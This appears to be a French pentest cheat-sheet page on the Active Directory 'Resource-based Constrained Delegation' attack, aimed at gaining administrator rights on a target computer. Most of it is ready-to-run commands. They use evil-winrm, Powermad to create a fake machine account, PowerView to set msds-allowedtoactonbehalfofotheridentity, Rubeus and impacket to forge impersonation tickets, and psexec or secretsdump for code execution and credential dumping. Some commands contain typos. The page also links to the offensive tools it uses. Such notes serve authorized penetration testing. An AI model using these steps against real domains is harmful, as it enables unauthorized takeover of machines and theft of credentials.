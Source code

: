 ```yaml
---
description: >-
  Je me demande si ajouter une machine au domaine avec un compte et réaliser
  directement les commandes powershell dessus ne fonctionne pas également.
---
```


# Resource-based Constrained Delegation

_**Objectif :** Devenir administrateur d'un objet ordinateur (\<MACHINE-CIBLE>)._

_**Note :** Cette attaque est possible si un utilisateur dispose_

* _Des droits "GenericAll" sur un objet ordinateur (\<MACHINE-CIBLE>)._
* _Du droit "CanPSRemote" sur une machine du domaine (MACHINE-DOMAINE)._

#### Connexion à une machine du domaine

```
$ evil-winrm -u "<USER>" -p '<PASSWORD' -i <IP-MACHINE-DOMAINE> -s /home/kali/tools/
#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe
```

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
#optionnel
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host <DC.DOMAIN.LOCAL> -domain-netbios <DOMAIN.LOCAL> '<DOMAIN.LOCAL/<USER>:<PASS>'
rbcd.py -delgate-from 'ATTACKERSYSTEM$' -delegate-to 'MACHINE$' -action 'write' '<DOMAIN.LOCAL/<USER>:<PASS>'
#fin

$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```

[psexec.exe](https://live.sysinternals.com/)

[powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

[powemad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
